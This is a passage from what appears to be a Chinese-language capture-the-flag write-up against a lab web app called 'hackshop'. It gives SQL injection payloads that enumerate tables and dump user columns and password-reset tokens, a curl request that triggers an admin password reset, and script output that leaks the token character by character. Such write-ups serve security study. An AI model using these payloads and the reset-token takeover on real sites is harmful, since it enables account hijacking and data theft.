 ```python
# 结果：hackshop


pay = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
exp(pay)
# 查看当前数据库的表单
# 结果：item,level,user


v3 = str(binascii.hexlify(b'user'))[2:-1]
pay = f"select group_concat(column_name) from information_schema.columns where table_name=0x{v3}"
exp(pay)
# 查看当前数据库 user 的字段
# 结果：id,username,password,email,gender,id_level,token,Host,User,Select_priv,Insert_priv,Update_priv,Dele

pay = "select group_concat(token) from user"
exp(pay)
# 查看token字段
```

一开始 使用sql注入得到的密码登录不成功
得到的密码是密文，而验证时需要MD5加密后的，这样肯定不能登录

`unaccessable_until_you_change_me,unaccessable_until_you_change_me`

 生成token的代码在`/login/resetPassword.php`
 
```php
function generateToken(){
    $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
    $charactersLength = strlen($characters);
    $randomString = '';
    for ($i = 0; $i < 15; $i++) {
        $randomString .= $characters[rand(0, $charactersLength - 1)];
    }
    return $randomString;
}
# 生成token的随机性太大，爆破当然不太现实
```

### Exploitation
讲一下大概思路
> 利用重置密码功能 `http://172.16.1.65/login/resetPassword.php`
> 用户名 `admin` 然后 生成一个token 它会存放到数据库里，然后我们利用sql注入查看token
> 有了token 就好办多了

这里的一系列操作我就使用`curl`

```shell

# 提交要重置密码的用户名，然后数据库里就多了token
curl -XPOST -d "username=admin" "http://172.16.1.65/login/resetPassword.php"
```
```shell
# 在使用上面的脚本跑出token
$ python3 t.py 
9
90
90v
90vw
90vwe
90vwel
90vwelD
90vwelDS
```